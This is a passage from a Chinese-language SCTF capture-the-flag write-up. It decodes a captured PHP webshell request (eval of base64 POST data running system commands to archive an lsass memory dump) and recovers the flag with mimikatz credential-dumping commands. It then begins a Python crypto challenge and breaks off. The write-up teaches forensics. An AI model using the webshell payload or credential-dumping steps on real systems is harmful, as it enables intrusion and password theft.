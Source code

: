 对参数进行Base64解码得到：

```
yo=@eval(base64_decode($_POST[z0]));&z0=@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$p=base64_decode($_POST["z1"]);$s=base64_decode($_POST["z2"]);$d=dirname($_SERVER["SCRIPT_FILENAME"]);$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";$r="{$p} {$c}";@system($r." 2>&1",$ret);print ($ret!=0)?"
ret={$ret}
":"";;echo("|<-");die();&z1=cmd&z2=cd /d "c:\inetpub\wwwroot\"&C:\progra~1\WinRAR\rar a C:\Inetpub\wwwroot\backup\wwwroot.rar C:\Inetpub\wwwroot\backup\1.gif -hpJJBoom&echo [S]&cd&echo [E]

```

其中hp后面的JJBoom就是压缩包的密码了，解压得到一个1.gif文件，trid鉴定一下，发现是个Minidump文件：

![enter image description here](http://drops.javaweb.org/uploads/images/9679defc4d565d2cde747e6391aeaa6350124fb8.jpg)

将后缀改成mdmp之后，使用Visual Studio打开看了下，发现是lsass.exe进程的Dump文件，如下图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/bfeea9e3dbda250c21b363746dac33b96c4e6ca0.jpg)

Google一下关键字“lsass dump 密码”，就看到了mimikatz，所以根据经验这就是通过mimikatz来读取密码了，打开mimikatz，然后输入如下命令：

> sekurlsa::minidump 1.mdmp
> 
> sekurlsa::logonPasswords

就能看到分析出来的密码了，密码处显示，如下图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/5b8ec1082ded384196d7918d6d803f51b6bb963e.jpg)

于是提交了一下尝试：

SCTF{} SCTF{ } （TAB+空格）

发现都不对，然后又去反查NTLM发现查不到，最后自己在XP下测试了一下，发现密码中是不能有空格的，然后空格就是空格，也不会显示成，当然在命令行下也看不出来有空格，所以只能猜测后面是有空格了，试了几个发现也不对，就把输出重定向到文件里：

![enter image description here](http://drops.javaweb.org/uploads/images/402a3b0a17d420c700fbee4a96fafbae68a4eacb.jpg)

打开文件就能看到密码了，所以Flag为SCTF{}。

CODE400
=======

* * *

题目所给的原始代码如下：

```
import json
import hashlib
import os
import base64
from Crypto.Cipher import AES


fp = open("secret.json", "r")
secret = json.load(fp)
fp.close()

if type(secret["the answer to life the universe and everything"]) != type(u"77"):
    destroy_the_universe()

answer = hashlib.sha1(secret["the answer to life the universe and everything"]).hexdigest()[0:16]
key = hashlib.sha1(secret["Don't google what it is"]).digest()[0:6]

if ord(key[4])*(ord(key[5])-5) != 17557:
    destroy_the_universe()

```